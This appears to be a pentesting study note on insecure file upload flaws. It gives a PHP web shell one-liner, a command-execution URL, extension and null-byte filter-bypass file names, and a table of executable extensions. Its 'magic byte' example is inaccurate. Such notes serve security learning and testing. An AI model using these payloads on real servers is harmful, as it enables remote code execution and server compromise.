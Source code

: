 ## What is it?

Insecure File Upload vulnerability is when an application allows uncontrolled and unvalidated upload of files. An attacker can exploit this vulnerability to upload malicious files, like web shells, which can lead to code execution, data leakage, or other types of attacks.

**A simple example**

An application allows users to upload profile pictures without validating the file type and content, or without properly handling the file storage. An attacker can upload a PHP shell script disguised as an image file.

Using Burpsuite repeater:
``` Upload
<?php system($_GET['cmd']); ?>
```
```Magic Byte Upload
<> PNG
IHYskad783 <?php system($_GET['cmd']); ?>
```
```URL
http://<ip>/uploads/cmd.php?cmd=whoami
```
*Check HackTricks and PayloadAllThings for reverse shells*

When this file is served by the server, the malicious script can be executed.

The impact of insecure file uploads includes:
- Remote Code Execution (RCE)
- Data Leakage
- Server Compromise

## Exploitation

```
# Bypass extension filters
# Note: req server misconfig to execute or the ability to rename once it's up
shell.php.jpg

# Null byte injection
shell.php%00.jpg

# Blocklist bypass
shell.php5
shell.phtml

# Magic Bytes
head logo.png
<> PNG

```

---
 ## Valid php file extensions:

| Type       | Extension                                  |     |
| ---------- | ------------------------------------------ | --- |
| php        | phtml, .php, .php3, .php4, .php5, and .inc |     |
| asp        | asp, .aspx                                 |     |
| perl       | .pl, .pm, .cgi, .lib                       |     |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |     |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |     |